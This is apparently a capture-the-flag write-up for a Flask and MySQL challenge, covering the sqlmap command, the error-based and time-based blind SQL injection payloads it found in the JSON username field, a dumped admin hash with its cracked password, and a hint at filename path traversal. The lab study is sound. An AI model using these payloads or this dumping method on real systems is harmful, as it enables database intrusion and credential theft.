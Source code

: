 In this challenge also a login page is their.

![](https://i.imgur.com/ak8NBt8.png)


And with no user info or details in source code I checked the docker files.

This challenge is similar to the `Drobots` challenge. It’s running `Flask` application with `MySQL`. So I looked into the docker file.

The `config.py` contains the database config info.

![](https://i.imgur.com/taRJF8c.png)


And `database.py` contain the database logic along with the hint but it is modified a little.
This time the `password` is getting verified with `passwordVerify`.

![](https://i.imgur.com/B5AErEg.png)


I again saved the request and gave it to `sqlmap`  which gave me the token and also bruteforced the password.


    sqlmap -r ./req --dbms=mysql -D orbital -T users --dump


    ---
    Parameter: JSON username ((custom) POST)
        Type: error-based
        Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: {"username":"a"="a" AND (SELECT 2720 FROM(SELECT COUNT(*),CONCAT(0x716a7a6271,(SELECT (ELT(2720=2720,1))),0x71786a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND "a"="a","password":"a"}
    
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: {"username":"a"="a" AND (SELECT 1000 FROM (SELECT(SLEEP(5)))dfxy) AND "a"="a","password":"a"}
    ---


    +----+-------------------------------------------------+----------+
    | id | password                                        | username |
    +----+-------------------------------------------------+----------+
    | 1  | 1692b753c031f2905b89e7258dbc49bb (ichliebedich) | admin    |
    +----+-------------------------------------------------+----------+

Now once logged in the functionality of the website was different.

![](https://i.imgur.com/tDoI12L.png)


Now I checked the `routes.py` file which contained a logic of the application. Here in the logic of communication the hint was given that the file escape for characters are not there for the filename. 
